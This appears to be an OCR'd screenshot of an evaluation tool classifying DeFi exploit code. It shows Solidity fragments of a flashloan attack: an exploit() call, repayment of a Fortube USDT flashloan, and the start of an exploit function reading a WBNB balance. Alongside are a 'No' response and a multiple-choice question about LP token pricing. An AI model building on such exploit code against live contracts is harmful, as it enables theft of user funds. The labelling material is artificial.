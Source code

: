 │         // *Actual exploit*                                                                                                                                                                                                                          │
│         exploit();                                                                                                                                                                                                                                   │
│                                                                                                                                                                                                                                                      │
│         // Start repaying flashloans                                                                                                                                                                                                                 │
│         emit log_string("Repaying flashloans...");                                                                                                                                                                                                   │
│                                                                                                                                                                                                                                                      │
│         // Repay fortube flashloan                                                                                                                                                                                                                   │
│         uint256 usdtOwed = amount + fee;                                                                                                                                                                                                             │
│         IERC20(USDT).transfer(FortubeBank.controller(), usdtOwed);                                                                                                                                                                                   │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│     "1": "No"                                                                                                                                                                                                                                        │
│ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function exploit() public {                                                                                                                                                                                                                      │
│         uint256 wbnbAmount = IERC20(WBNB).balanceOf(address(this)) - 15_000e18;                                                                                                                                                                      │